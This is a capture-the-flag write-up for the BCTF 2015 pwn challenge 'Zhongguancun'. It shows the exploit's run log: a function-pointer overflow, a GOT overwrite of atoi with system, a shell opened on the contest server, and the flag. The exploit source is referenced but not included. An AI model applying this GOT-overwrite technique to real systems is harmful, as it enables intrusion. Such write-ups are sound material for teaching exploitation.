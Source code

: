 ## BCTF 2015 - Zhongguancun (Pwn 450)
##### 21-23/03/2015 (48hr)
___

### Description: 
```
nc 146.148.60.107 6666
*********************************
*** Welcome to Zhong Guan Cun ***
*********************************
Are you dreaming of becoming a Milli$_$naire?
Come to sell some electronics!
```
___
### Solution

A detailed solution is within the exploit file.

```
ispo@nogirl ~/bctf $ python zhongguancun_exploit.py 
 **** PHASE 1: registering items ****
 **** PHASE 2: overflowing function pointer ****
 **** PHASE 3: tampering money pointer ****
 **** PHASE 4: changing atoi() to system() in GOT ****
	system 0x0003ada0	atoi 0x0002d160
	atoi - price*buy = 0x00df1160
 **** PHASE 5: triggering system() ****
 **** PHASE 6: opening shell ****
whoami 
	zhongguancun
pwd
	/home/zhongguancun
ls -la
	total 44
	drwxr-x--- 3 root zhongguancun  4096 Mar 21 01:29 .
	drwxr-xr-x 3 root root          4096 Mar 21 01:28 ..
	-rw-r--r-- 1 root zhongguancun    21 Jun 11  2014 .bash_logout
	-rw-r--r-- 1 root zhongguancun    57 Jun 11  2014 .bash_profile
	-rw-r--r-- 1 root zhongguancun   141 Jun 11  2014 .bashrc
	drwxr-xr-x 2 root zhongguancun  4096 Mar 21 01:28 apps
	-r--r----- 1 root zhongguancun    50 Mar 21 01:27 flag
	-rwxr-x--- 1 root zhongguancun 14132 Mar 20 14:08 zhongguancun
cat flag
	BCTF{h0w_could_you_byp4ss_vt4ble_read0nly_ch3cks}
exit
```
Flag is **BCTF{h0w_could_you_byp4ss_vt4ble_read0nly_ch3cks}**
___